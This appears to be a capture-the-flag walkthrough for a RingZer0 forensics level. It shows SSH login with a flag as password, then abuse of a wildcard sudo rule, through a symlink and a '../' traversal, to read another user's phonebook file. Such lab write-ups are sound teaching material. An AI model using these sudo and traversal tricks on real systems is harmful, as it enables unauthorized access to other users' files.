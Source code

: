 # Level 6

![](https://i.imgur.com/d6Cwkmp.png)

```shell
$ sshpass -p Flag-08grILsn3ekqhDK7cKBV6ka8B ssh trinity@challenges.ringzer0team.com -p 10090
```

![](https://i.imgur.com/6p1BA7Z.png)

```shell
trinity@forensics:~$ ls -la
total 72
drwxr-x--- 8 trinity trinity  4096 Jun 23 18:03 .
drwxr-xr-x 8 root    root     4096 May 30 18:08 ..
lrwxrwxrwx 1 trinity trinity     9 Jun  3 17:44 .bash_history -> /dev/null
-rwxr-x--- 1 trinity trinity   252 May 30 18:07 .bash_logout
-rwxr-x--- 1 trinity trinity  2632 May 30 18:07 .bashrc
drwx------ 2 trinity trinity  4096 May 31 02:23 .cache
-rw------- 1 trinity trinity    73 Jun 14 18:35 .lesshst
-rw------- 1 trinity trinity    60 Jun  1 15:16 .mysql_history
drwxrwxr-x 2 trinity trinity  4096 Jun  3 17:38 .nano
-rwxr-x--- 1 trinity trinity   674 May 30 18:07 .profile
drwxr-xr-x 2 trinity trinity  4096 Jun 18 16:09 .vim
-rw------- 1 trinity trinity 10850 Jun 23 18:03 .viminfo
drwxrwxr-x 5 trinity trinity  4096 Jun 20 01:45 _tmp
-rw-rw-r-- 1 trinity trinity    63 Jun 15 03:49 log
lrwxrwxrwx 1 trinity trinity    19 Jun 18 15:22 ne -> /home/neo/phonebook
-rwxr-x--- 1 trinity trinity   124 May 30 18:07 phonebook
drwxrwx--x 2 trinity trinity  4096 Jun 23 14:10 tmp
drwxrwxr-x 4 trinity trinity  4096 Jun 20 02:58 var
```

So, obviously, phonebook only `neo` THE CHOSEN ONE can read.

However, seems that someone make link ne to neo's phonebook, if we can `cat` this link, may find something.

To get permission to take place of neo, we need `sudo`.

```shell
trinity@forensics:~$ sudo -l
Matching Defaults entries for trinity on lxc-sysadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User trinity may run the following commands on lxc-sysadmin:
    (neo) /bin/cat /home/trinity/*
```

Follow by clue :`(neo) /bin/cat /home/trinity/*`, let's go to `bin/cat /home/trinity/*` with chosen one :`neo`.

```shell
trinity@forensics:~$ sudo -u neo /bin/cat /home/trinity/*
Fri Jun 15 03:49:24 UTC 2018
trinity
Gathering.py
Gathering.py
The Oracle        1800-133-7133
Persephone        345-555-1244




change my current password FLAG-XXXXXXXXXXXXXXXXXXXXXXXXX
don't forget to remove this :) 
The Oracle        1800-133-7133
Persephone        345-555-1244





copy made by Cypher copy utility on /home/neo/phonebook
/bin/cat: /home/trinity/tmp: Is a directory
/bin/cat: /home/trinity/_tmp: Is a directory
/bin/cat: /home/trinity/var: Is a directory
```

If we follow by clue :`/home/neo/phonebook` and type `sudo -u neo /bin/cat /home/trinity/../neo/phonebook` may found exactly file.

But knowm someone left the link.

Answer:
```
FLAG-XXXXXXXXXXXXXXXXXXXXXXXXX
```
